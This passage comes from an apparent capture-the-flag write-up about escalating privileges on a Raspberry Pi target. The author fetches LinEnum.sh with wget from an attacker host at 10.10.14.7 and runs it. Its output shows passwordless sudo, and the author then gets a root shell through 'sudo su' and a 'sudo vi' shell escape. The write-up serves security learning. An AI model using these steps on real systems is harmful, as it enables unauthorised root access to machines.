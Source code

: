 I then use wget to download the files on the victim.

```
pi@raspberrypi:/dev/shm $ wget http://10.10.14.7:8000/LinEnum.sh
converted 'http://10.10.14.7:8000/LinEnum.sh' (ANSI_X3.4-1968) -> 'http://10.10.14.7:8000/LinEnum.sh' (UTF-8)                                                                                               
--2018-10-22 19:01:15--  http://10.10.14.7:8000/LinEnum.sh
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47066 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh                100%[=====================================>]  45.96K  --.-KB/s   in 0.1s

2018-10-22 19:01:15 (416 KB/s) - 'LinEnum.sh' saved [47066/47066]

pi@raspberrypi:/dev/shm $ chmod +x LinEnum.sh
```

Running the privesc-script and going through its output, I note the following interesting information:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

and

```
[-] Location and contents (if accessible) of .bash_history file(s):
/home/pi/.bash_history

ifconfig
sudo su
```

So we can use sudo without any password. This is bad. We also see in the bash history that the user has used sudo to change to the root user.

We can use sudo to get root in multiple ways.

```
pi@raspberrypi:/dev/shm $ sudo su
root@raspberrypi:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

 We can also use vi for example:

```
pi@raspberrypi:/dev/shm $ sudo vi
:!sh 
# id
uid=0(root) gid=0(root) groups=0(root)
```
